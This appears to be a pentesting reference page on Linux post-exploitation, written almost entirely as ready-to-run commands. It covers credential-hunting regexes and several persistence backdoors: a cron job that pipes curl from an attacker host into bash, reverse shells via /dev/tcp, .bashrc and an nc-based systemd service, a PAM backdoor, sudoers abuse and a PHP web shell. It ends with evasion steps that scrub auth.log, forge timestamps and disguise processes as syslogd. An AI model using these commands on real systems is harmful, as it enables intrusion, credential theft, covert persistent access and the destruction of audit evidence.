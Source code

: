 ```yaml
---
title: 7. Post-exploitation
date: 2024-08-02 15:00:00
categories:
  - Pentesting
  - Linux
tags:
  - Pentesting
  - Linux
  - Post-exploitation
  - Persistence
toc: true
---
```


---
Step 7 in a penetration test: Post-exploitation.
Install backdoors for persistence, extract credentials and relevant data, clean step foots. 

---
<!-- more -->

<br>


## Credentials
```bash Eviltree
# regex
python3 eviltree.py -r $dir -x ".{0,3}passwd.{0.3}[=]{1}.{0,18}" -A -q -i -v
# keywords
python3 eviltree.py -r $dir -k passw,db_,admin,account,user,token -A -q -i -v
```

<br>

## Persistence
SSH backdoor
```bash
git clone https://github.com/NinjaJc01/ssh-backdoor
```

Add yourself to authorized users
```bash
# on local machine: generate public key
ssh-keygen 
# on local machine: copy the public key to victim
scp ~/.ssh/id_rsa.pub remote-user@$IP:~/.ssh/
# on victim machine: add the public key to authorized_keys 
cat ~/.ssh/id_rsa.pub >> authorized_keys
# on local machine: set the file permissions
chmod 600 ~/.ssh/authorized_keys
# on local machine: SSH in
ssh -i ~/.ssh/id_rsa remote-user@$IP # -o PubkeyAcceptedKeyTypes=rsa-sha2-256 
```

Create a cronjob
```bash shell.sh
#!/bin/bash
bash -i >& /dev/tcp/10.10.10.109/443 0>&1
```
```bash create cronjob
echo "* *     * * *   root    curl http://10.10.10.109:80/shell.sh | bash &" >> /etc/crontab
```

Revshell via `.bashrc`
```bash
echo 'bash -i >& /dev/tcp/10.10.10.10/443 0>&1' >> ~/.bashrc
```

PAM (Pluggable Authentication Modules) Backdoor
```bash
git clone https://github.com/zephrax/linux-pam-backdoor
# generate backdoored pam_unix.so
./backdoor.sh -v 1.3.0 -p som3_s3cr4t_p455w0rd

# !! identify the PAM version installed on the system !!

# copy the generated backdoor to the afferent directory
cp pam_unix.so /usr/lib/security/
```

Custom service
```bash
nano ~/.config/systemd/user/backdoor.service
```
```conf ~/.config/systemd/user/backdoor.service
[Unit]
Description=Very important backdoor.[Service]
Type=simple
ExecStart=/usr/bin/nc -e /bin/bash 10.10.10.10 443 2>/dev/null
[Install]
WantedBy=default.target
```
```bash
systemctl --user enable backdoor
```

Add user to sudoers
```bash
echo 'username        ALL=(ALL)        NOPASSWD: ALL' >> /etc/sudoers
```

PHP backdoor in webapp
```php
<?php
    if (isset($_REQUEST['explicit_cmd'])) {
        echo "<pre>" . shell_exec($_REQUEST['explicit_cmd']) . "</pre>";
    }
?>
```

Background reverse shell
```bash Reverse shell every 2 minutes
# $att_ip is the attacker's IP
while :; do setsid bash -i &>/dev/tcp/$att_ip/8443 0>&1; sleep 120; done &>/dev/null &
```

<br>

## Avoid detection
Hide your SSH connection
> nothing is added to `/var/log/utmp`
> user won't appear in `w` or `who` output
```bash
ssh -o UserKnownHostsFile=/dev/null -T user@$IP 'bash -i'
```

Change file timestamp
```bash
touch -t YYYYMMDDhhmm filename
```

Don't remove log files - it is suspicious. Replace the domains and IPs
```bash
cd /dev/shm; grep -v "$domain" /var/log/auth.log > a.log; cat a.log > /var/log/auth.log; rm -f a.log
```

Hide a command by masking it in the `syslogd`
```bash scan the victim's network
exec -a syslogd nmap -T0 10.0.2.1/24
```

Start a background hidden process in the `syslogd`
```bash
exec -a syslogd nmap -T0 10.0.2.1/24 &>nmap.log &
```

<br>

---
---
